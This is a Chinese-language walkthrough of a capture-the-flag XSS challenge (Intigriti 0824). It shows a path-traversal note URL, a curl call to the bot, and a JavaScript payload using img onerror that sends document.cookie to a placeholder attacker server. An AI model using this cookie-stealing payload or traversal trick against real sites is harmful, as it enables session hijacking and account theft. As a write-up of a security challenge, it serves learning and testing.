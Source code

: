 至此，最困难的部分终于完了，环境起起来了。

## 解题

注册好账户之后，创建note，report，日志里面看不到啥，一直说超时。修改docker-compose.yml文件，将bot的8000端口也暴露出来。
我们直接调用bot的端口。
```bash
curl -X POST -H 'content-type:application/json' -d '{"url":"http://127.0.0.1/view?note=..%5c..%5c..%5ccontact?return=http://127.0.0.1%2fa?8870d42b-1ead-481f-ac7e-9a22751d10ed"}' http://127.0.0.1:8000/visit
```
发现有请求。
尝试着将ip换为域名，但是远程没有收到请求，可能是域名解析的问题。
`http://127.0.0.1/view?note=..\..\..\contact?return=https://[your_server]/json?72e02048-52e5-4fb2-b8e0-c59866231c94`
我们直接访问xss链接，发现服务端收到请求了，所以xss是存在的。

远程服务端构造的xss代码
```javascript
var payload = {"debug":"<img src onerror='(new Image()).src=\"http://[your_server]/?\"+escape(document.cookie)'>"}
return new Response(JSON.stringify(payload),{headers: {
      'Access-Control-Allow-Origin': 'http://127.0.0.1' ,
      'Access-Control-Allow-Headers': '*',
      'Access-Control-Allow-Methods': 'GET, OPTIONS',
      'Access-Control-Max-Age': '86400',
    },});
```

## 线上解题
我们去线上网站上操作一下，注册，create note，访问note，构造payload url
`https://challenge-0824.intigriti.io/view?note=..\..\..\contact?return=https://[your_server]/json?72e02048-52e5-4fb2-b8e0-c59866231c94`

report这个url。
查看服务端，发现没有，payload不对？
过了一会儿，再次查看log，发现收到了请求。
发现flag,`flag%3DINTIGRITI%7B1337uplivectf_[redacted]_d473%7D`

## 关机
接下来关机debian环境。
```bash
su
poweroff
# poweroff 命令不存在
/sbin/poweroff
```

收工。


